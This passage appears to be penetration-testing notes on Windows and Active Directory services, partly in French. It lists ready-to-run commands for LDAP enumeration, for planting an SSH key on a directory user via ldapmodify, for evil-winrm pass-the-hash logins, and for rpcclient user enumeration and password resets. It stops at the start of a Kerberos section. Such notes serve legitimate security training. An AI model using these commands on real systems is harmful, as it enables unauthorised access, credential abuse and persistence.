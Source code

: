 ```bash
ldapsearch -x -h IP -s base
# result
#  ...
#  namingcontext DC=something,DC=someotherthing
ldapsearch -x -h IP -b "DC=something,DC=someotherthing"
# chech for password or something interesting in result
# ldap with bind
ldapsearch -x -h IP -D "cn=User,ou=server,dc=something,dc=someotherthing" -w Password
#-----------------------------------------------
ldapmodify -x -h IP -D "cn=User,ou=server,dc=something,dc=someotherthing" -w Password -f file.txt
# file.txt be like if you want add sshKey
dn: #of the user you want to modify
changeType: modify
add: objectClass
objectClass: ldapPublicKey
- # dash is usefull when you want more than 1 command
add: sshPublicKey
sshPublicKey: ssh-rsa yourkey
#-----------------------------------------------
```



### Win-RM

All user cannot use winrm, default only remote management's user can use winrm

```bash
evil-winrm -i IP -u User -p Password
evil-winrm -i IP -u User -H HASH_OF_USER
```



### Win RPC

```bash
rpcclient -U $ip # blank passwd
enumdomusers
queryusergroups $rid #rid is seen in the last cmd - tells the groups of the user
querygroup $rid #information about this group
queryuser $rid # info about the user
setuserinfo $username $level $password #change user info if enough right
# level :  according to this : https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/6b0dff90-5ac0-429a-93aa-150334adabf6?redirectedfrom=MSDN
```

## Active Directory

### Kerberos
Acteurs:
* KDC = Key Distribution Center (meme machine que le DC en env AD)
* Client
* Service
